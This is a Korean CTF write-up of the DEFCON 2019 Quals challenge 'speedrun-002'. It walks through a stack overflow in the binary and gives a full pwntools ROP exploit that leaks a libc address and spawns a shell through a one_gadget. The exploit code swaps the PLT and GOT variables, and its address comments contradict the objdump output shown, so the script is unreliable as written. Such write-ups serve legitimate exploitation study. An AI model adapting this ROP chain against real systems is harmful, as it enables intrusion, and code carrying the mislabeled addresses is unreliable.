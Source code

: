 ```yaml
---
layout: post
title: ! "[DEFCON 2019 Quals] speedrun-002"
excerpt_separator: <!--more-->
comments : true
tags:
  - pwn
  - Defcon CTF
  - Write-up
  - chaem
---
```


defcon 예선에 있던 speedrun 문제 중에 2번째 문제에 대한 writeup을 쓰려고 한다.  

<!--more-->

얼마만에 보는 pwnable인지... 요즘 계속 web만하다가, defcon ctf 문제 풀이를 위해 간만에 gdb를 쓴듯...ㅠ  
babyheap문제를 풀려고했으나... 공부안한지 너무 오래된것같다... ㅠ ROP문제도 전전긍긍...  

바이너리의 보호기법은 다음과 같다.  
```
ubuntu@ubuntu:~/study/ctf/speed02$ checksec speedrun-002 
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/ubuntu/.pwntools-cache/update to 'never'.
[*] You have the latest version of Pwntools (3.12.2)
[*] '/home/ubuntu/study/ctf/speed02/speedrun-002'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

프로그램을 실행시키면 다음과 같이 값을 입력받고 종료한다. 일단 여기서 segmentation fault도 나지 않는다.

``` 
ubuntu@ubuntu:~/study/ctf/speed02$ ./speedrun-002 
We meet again on these pwning streets.
What say you now?
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
What a ho-hum thing to say.
Fare thee well.
```

ida로 디컴파일하여 보면, sub_40074C() 함수를 볼 수 있다.  
이 함수에서 문자열이 `Everything intelligent is so boring.`와 같은지 확인한다.  

```c
int sub_40074C()
{
  int result; // eax
  char buf; // [rsp+0h] [rbp-590h]
  char v2; // [rsp+190h] [rbp-400h]

  puts("What say you now?");
  read(0, &buf, 0x12CuLL);
  if ( !strncmp(&buf, "Everything intelligent is so boring.", 0x24uLL) )
    result = sub_400705(&v2, "Everything intelligent is so boring.");
  else
    result = puts("What a ho-hum thing to say.");
  return result;
}
```

그래서 `Everything intelligent is so boring.` 문자열을 입력하면 그 뒤에 한번 더 값을 입력받는다.  

```
ubuntu@ubuntu:~/study/ctf/speed02$ ./speedrun-002 
We meet again on these pwning streets.
What say you now?
Everything intelligent is so boring.
What an interesting thing to say.
Tell me more.
aaaaa
Fascinating.
Fare thee well.
```
ida로 보았을때, 그러면 `sub_400705`함수를 호출하게 된다.  
이 함수에서 0x7da 만큼의 입력을 받으면서 bof 취약점이 발생한다.  

```c
ssize_t __fastcall sub_400705(void *a1)
{
  puts("What an interesting thing to say.\nTell me more.");
  read(0, a1, 0x7DAuLL);
  return write(1, "Fascinating.\n", 0xDuLL);
}
```

우선, puts 함수가 존재하므로 puts의 주소를 확인한다.  
puts의 plt는 0x4005b0이고, got는 0x601028이다. 
```
ubuntu@ubuntu:~/study/ctf/speed02$ objdump -D speedrun-002 | grep puts
00000000004005b0 <puts@plt>:
  4006fd:	e8 ae fe ff ff       	callq  4005b0 <puts@plt>
  400718:	e8 93 fe ff ff       	callq  4005b0 <puts@plt>
  40075e:	e8 4d fe ff ff       	callq  4005b0 <puts@plt>
  4007b3:	e8 f8 fd ff ff       	callq  4005b0 <puts@plt>
  4007c6:	e8 e5 fd ff ff       	callq  4005b0 <puts@plt>
ubuntu@ubuntu:~/study/ctf/speed02$ objdump -R speedrun-002 | grep puts
0000000000601028 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5
root@ubuntu:/home/ubuntu/study/ctf/speed02# objdump -R speedrun-002 | grep read
0000000000601040 R_X86_64_JUMP_SLOT  read@GLIBC_2.2.5

```

필요한 가젯 찾기

```
root@ubuntu:/home/ubuntu/study/ctf/speed02# ROPgadget --binary speedrun-002 | grep ": pop rdx ; ret"
0x00000000004006ec : pop rdx ; ret
root@ubuntu:/home/ubuntu/study/ctf/speed02# ROPgadget --binary speedrun-002 | grep ": pop rdi ; ret"
0x00000000004008a3 : pop rdi ; ret
root@ubuntu:/home/ubuntu/study/ctf/speed02# ROPgadget --binary speedrun-002 | grep ": pop rsi "
0x00000000004008a1 : pop rsi ; pop r15 ; ret
```

```
ubuntu@ubuntu:~/ctf/2019/defcon/speedrun$ one_gadget ./libc6_2.27-3ubuntu1_amd64.so 
0x4f2c5	execve("/bin/sh", rsp+0x40, environ)
constraints:
  rcx == NULL

0x4f322	execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c	execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

따라서 다음과 같은 exploit 코드를 사용할 수 있다.

```python
from pwn import *

binary = ELF('./speedrun-002')
libc = ELF('libc6_2.27-3ubuntu1_amd64.so')
p = process('./speedrun-002')

puts_plt = binary.got['puts'] #0x4005b0 #bin.got('puts')
puts_got = binary.plt['puts'] #0x601028 #bin.plt('puts')
read_got = 0x601040

pop_rdi = 0x4008a3 #binary.search(asm('pop rdi; ret')).next() #0x4008a3
#pop_rsi_r15 = 0x4008a1
#pop_rdx = 0x4006ec
main = 0x400600 #bin.symbols['main']

print p.recvuntil('now?\n')
p.sendline('Everything intelligent is so boring.\n')
print p.recvuntil('Tell me more.\n')

payload = "A"* 1032 
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main)
p.sendline(payload)

p.recvuntil('Fascinating.\n')
leak = u64(p.recvline()[:6]+"\x00"*2)
log.success("libc leak : " + hex(leak))

puts_libc = libc.symbols['puts']
lba = leak - puts_libc
log.success("libc base addr : " + hex(lba))

system_libc = libc.symbols['system']
binsh = libc.search("/bin/sh").next()

payload = "a"*1032
payload += p64(lba + 0x4f322) # one_gadget

print p.recvuntil('now?\n')
p.sendline('Everything intelligent is so boring.\n')
print p.recvuntil('Tell me more.\n')
p.sendline(payload)

p.interactive()
```
